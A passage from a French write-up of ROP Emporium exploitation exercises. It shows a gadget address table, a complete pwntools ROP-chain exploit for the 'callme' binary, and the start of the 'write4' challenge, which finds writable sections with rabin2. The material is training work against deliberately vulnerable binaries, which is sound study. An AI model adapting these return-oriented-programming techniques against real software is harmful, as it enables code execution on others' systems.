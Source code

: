 | 0x401870 <callme_two@plt>                         |
| 0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret      |
| 0x01                                              |
| 0x02                                              |
| 0x03                                              |
| 0x401810 <callme_three@plt>                       |


> Note : J'ai volontairement retiré la partie liée au bourrage, elle est déjà expliquée a deux reprises pour les challenges précédents. La valeur ici est de 40 octets également. 

Voici l'exploit : 

~~~python
root@kali:~/rop_emporium/callme# cat exploit.py 
#!/usr/bin/env python

from pwn import * 

junk = "A"*40
pop_rdi_rsi_rdx = p64(0x401ab0)
param1 = p64(1)  
param2 = p64(2)  
param3 = p64(3)  
callme1 = p64(0x401850)
callme2 = p64(0x401870)
callme3 = p64(0x401810)

p = process("./callme")

payload = junk + pop_rdi_rsi_rdx +  param1 + param2 + param3 + callme1 + pop_rdi_rsi_rdx + param1 + param2 + param3 + callme2 + pop_rdi_rsi_rdx + param1 + param2 + param3 + callme3 

info("Send magic bytes in binary")
p.recvuntil(">")
p.sendline(payload)
out=p.recvall()
success(out)
~~~

## Write4 
Dans ce challenge nous devons écrire de données en mémoire. 
Deux solutions possibles `/bin/cat flat.txt` et `/bin/bash`. 
La première étape est de trouver ou mettre nos données :

~~~bash
root@kali:~/rop_emporium/write4# rabin2 -S write4 | grep "rw"
19 0x00000e10     8 0x00600e10     8 -rw- .init_array
20 0x00000e18     8 0x00600e18     8 -rw- .fini_array
21 0x00000e20     8 0x00600e20     8 -rw- .jcr
22 0x00000e28   464 0x00600e28   464 -rw- .dynamic
23 0x00000ff8     8 0x00600ff8     8 -rw- .got
24 0x00001000    80 0x00601000    80 -rw- .got.plt
25 0x00001050    16 0x00601050    16 -rw- .data
26 0x00001060     0 0x00601060    48 -rw- .bss
~~~
